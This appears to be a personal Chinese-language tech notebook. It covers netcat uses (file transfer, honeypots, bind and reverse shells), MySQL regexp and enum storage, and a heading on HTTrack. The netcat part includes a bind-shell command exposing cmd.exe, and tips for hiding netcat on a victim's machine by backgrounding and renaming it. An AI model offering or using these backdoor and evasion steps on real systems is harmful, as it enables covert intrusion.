 传文件：
        其实和nc没啥关系，主要利用了系统IO重定向或pipe的功能，标准化带来的好处多多。
        发送端通过pipe把文件数据传递给stdin，或者通过重定向把stdin重定向到某个文件上，然后接受端只要对stdout进行重定向把它定向到目标文件上去即可。
        比如：
        server: nc -lvv -p 8089 < my.txt
        client: nc -nvv serverip 8089 > my.txt
        当你在纠结两台机子传个文件到底是用网络共享好还是利用中间ftp好又或者是scp甚至于给自己发个邮件另一台机子上去下载的时候，这简直是你的诺亚方舟。
        这个功能说成传文件说的有些狭隘了，总之就是传递数据，理论上可以把接收端的数据（可能是某种格式编码的）直接传给对应的处理软件去执行，举个例子比如说看个视频什么的。

得到对端机子的shell：
        -e的邪恶能力终于派上用场了。
        一台机子上 nc -lvv -p 8089 -t -e cmd.exe
        然后你去连它的时候神奇的事情发生了，自己的终端会变成对方机子的终端，可以随便做邪恶的事情（在用户权限范围下），原理的话估计和我上面写的类似。
        如果对方机子的nc支持-d，那就更理想一点，加上这个参数使得nc后台运行更加难以发现，更进一步的，修改nc.exe的文件名使查看进程的时候别人也不容易起疑。这个NB的功能除了拿来动真刀真枪之外，还能怎么玩其实主要看-e后面的这个用户程序怎么去写吧，这个还是自己去找灵感。

蜜罐：
        还是作为server的基本功能来说，思路不一样会发现用途立刻就大相径庭了。比如说你没事儿listen一个端口，然后-o 来打log，闲来喝喝茶翻翻log，你就能知道都有哪些人对你的这个端口感兴趣（嘿嘿嘿...）
        更进一步的，因为许多小坏蛋们总是用一些安全渗透工具来找空子，毕竟是工具嘛，识别一些漏洞总是有一组傻乎乎的规则的，如果想要捉弄他们让他们误以为真的有漏洞而采取进一步措施的话，可以结合nc的数据传输功能和-e再加上自写程序来伪造一个。不过小心玩火自焚喽。

反向链接：
        前面说一个拿到server shell的情况，要求server端绑定一个shell程序到端口上。那么实际应用情境中，一般就是小坏蛋给小绵羊电脑上种一个server啦，然后每次小坏蛋去连接都能得到shell。但由于种种问题，小坏蛋要直接连到小绵羊电脑可能比较麻烦，尤其是小绵羊电脑在一个局域网中，通过nat上网的情况下。
        为了解决这个问题，可以换一种思路，小绵羊作为主动发起端并自己绑定一个shell程序到nc，要实现这个步骤可能是小坏蛋哪天千辛万苦入了小绵羊电脑设了一个计划任务，也可能是小坏蛋到小绵羊家里玩的时候在小绵羊电脑里使了个坏...然后小坏蛋电脑只需要安心开着server等小绵羊上钩，每次小绵羊连接到server就自动把自己卖了出去...
        原理的话，猜测是在阻塞connect成功之后fork然后exec，再wait，和主动连接差不多的。不过反向链接省去了正面突围的大麻烦，功德一件，善哉善哉。


        看到比较典型的大概有上面这几种，熟悉的人肯定已经熟悉的不能再熟了。通过和各个系统工具的组合想必还有更多好玩的用法的，所以nc可是一个很益智的玩具呢，当然它不仅仅是玩具，必要时也可能帮你解决实际问题。
        综合来看，nc在许多方面的功能都有比较好用的独立软件，这也侧面反应了nc在这些功能上都有许多做的不够好的地方（没有足够多针对性的优化和扩展功能）。但它胜在麻雀虽小但五脏俱全，这一点十分讨人喜欢，在许多没有特点工作环境的场合会是非常有吸引力的选择。
        虽然还没有深度使用这个工具，不过有预感结合自编脚本来用的话，应该会表现的更加出彩一些。

        就像语言影响人的思维面一样，工具的掌握让人更加清晰的认识到何事可为何事不可为，从而进一步影响决策和行为。

        为了进化而努力。

### mysql regexp
<pre>
SELECT * FROM users_bank where  card_no  regexp '^[0-9]+$';  -- 找出所有只是数字      not REGEXP 不只是数字
</pre>
mysql 中 emun 与 tinyint 

1.  enum的存储原理我仔细查看了下手册。是这样的:

在建立这个字段时，我们会给他规定一个范围比如enum('a','b','c'),这时mysql内部会建立一张hash结构的map表，类似:0000 -> a，0001 -> b，0002 -> c。

当我插入一条数据，此字段的值位a或b或c时，他存储在里面的不是这个字符，而是对应他的索引，也就是那个0000或0001或0002。
同样，enum在mysql手册上的说明:
<pre>
ENUM('value1','value2',...)
1或2个字节，取决于枚举值的个数(最多65,535个值)
除非enum的个数超过了一定数量，否则他所占的存储空间也总是1字节。
</pre>
2. tinyint:
<pre>
类型  字节  最小值  最大值
      (带符号的/无符号的)  (带符号的/无符号的)
TINYINT  1  -128  127
他的最小存储所占空间也是1字节。
</pre>
最后，Enum，既然要用它，就不必要使用什么0，1，2来代替实际的字符串了。甚至中文字符串。他并不会对数据库性能进行多余开销。因为对于它来说，你使用'0','1','2'和'张三','李四','王五'数据表所占的存储空间一样。但是考虑到我们实际应用时数据需要从db服务器回传到web app，所以在网络传输时，当然还是尽可能的传输小数据比较好。所以如果很在意这些，还是不用它好了。
### HTTrack - 克隆任意网站
HTTrack可以克隆指定网站－把整个网站下载到本地。
